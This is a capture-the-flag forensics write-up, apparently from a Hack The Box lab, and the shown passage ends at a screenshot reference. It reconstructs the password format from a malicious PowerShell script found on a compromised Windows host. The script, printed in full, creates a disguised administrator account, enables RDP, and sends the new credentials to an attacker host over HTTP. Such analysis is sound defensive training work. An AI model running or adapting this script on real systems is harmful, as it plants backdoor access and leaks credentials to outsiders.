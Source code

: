 **Solution:**

This question gave me a hard time and required multiple steps. First, I found the `JM.ps1` script in the filesystem at `C:\Users\Werni\AppData\Local\JM.ps1`:

```powershell
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

The script shows the password format: `Watson_$timestamp` where timestamp is in `yyyyMMddHHmmss` format.

From Question 7, I knew the user was created at `2025-08-24T23:05:09.7646587Z` (UTC), but I needed to find the actual local time when the script executed.

To do this, I installed Registry Explorer (Eric Zimmerman tool) from https://ericzimmerman.github.io/#!index.md and examined the timezone information at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` in `C:\Windows\System32\config\SYSTEM`:

![Timezone information in Registry Explorer](screenshots/q9_timezone.png)
